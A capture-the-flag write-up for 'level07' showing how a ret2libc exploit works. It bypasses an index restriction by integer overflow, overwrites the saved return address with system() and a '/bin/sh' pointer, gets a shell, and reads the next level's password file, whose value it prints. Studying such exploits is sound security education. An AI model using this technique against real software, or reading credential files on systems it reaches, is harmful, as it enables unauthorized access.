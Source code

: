 # level07

This program clear `argv` and `env` and waits for a command in a loop:

- `store`: store a number at address `$buffer + $index * 4`
- `read`: read a number at `$buffer + $index * 4`
- `quit`: quit the program

We also can't :

- store a number where number >> 24 == 183
- store a number where index % 3 == 0

Let's try to overwrite `eip`. The passed to  `store_number` function begins at `0xffffd544` in `main`, 456 bytes from `eip`:

```gdb
Input command: store

Breakpoint 1, 0x080488ea in main ()
(gdb) x/wx $esp
0xffffd520:     0xffffd544
(gdb) x/wx $ebp+4
0xffffd70c:     0xf7e45513
(gdb) p/d (0xffffd70c - 0xffffd544) / 4
$8 = 114
```

We can see that a number at index 114 can't be stored (144 % 3 = 0).

By passing the max int `2147483647` + 1, we can see that we write at index 0, so we can add 114 to write on index 114:

```gdb
Input command: store     
 Number: 42
 Index: 2147483648
 Completed store command successfully
Input command: read
 Index: 0
 Number at data[0] is 42
 Completed read command successfully
Input command: store
 Number: 42
 Index: 2147483762
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 42
 Completed read command successfully
```

Now, let's find `system` and `/bin/sh`:

```gdb
(gdb) info functions system 
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
```

```gdb
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh"
```

We can now try to overwrite index 114 and 116, as 1st argument is taken from `$ebp + 8` in functions:

[ system() ] [ return address ] [ "/bin/sh" ]

```bash
Input command: store
 Number: 4159090384
 Index: 2147483762
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 2147483764
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cd /home/users/level08
$ cat .pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
